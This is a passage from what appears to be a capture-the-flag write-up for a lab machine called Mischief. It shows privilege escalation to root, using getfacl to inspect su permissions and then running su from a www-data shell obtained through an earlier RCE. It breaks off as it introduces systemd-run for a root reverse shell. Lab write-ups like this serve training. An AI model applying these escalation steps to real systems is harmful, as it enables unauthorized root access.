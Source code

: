     # Uncomment this if you want members of a specific group to not
    # be allowed to use su at all.
    # auth       required   pam_wheel.so deny group=nosu
    ...[snip]...



It turns out that it is an example of extended permissions known as file
access control lists (facl). I can access them via the `getfacl`
command:



    loki@Mischief:~$ getfacl /bin/su
    getfacl: Removing leading '/' from absolute path names
    # file: bin/su
    # owner: root
    # group: root
    # flags: s--
    user::rwx
    user:loki:r--
    group::r-x
    mask::r-x
    other::r-x



As the output shows, loki is specifically not allowed to execute `su`.

### Option #1 - Use www-data Shell

I can go back to my shell as www-data from the RCE, and run su there:



    www-data@Mischief:/var/www.md$ su
    Password: 
    root@Mischief:/var/www.md# id
    uid=0(root) gid=0(root) groups=0(root)



### Option #2 - systemd-run

I can't su as loki, but I can use `systemd-run`. This command will not
give me an interactive return, but I can launch another reverse shell as
root:
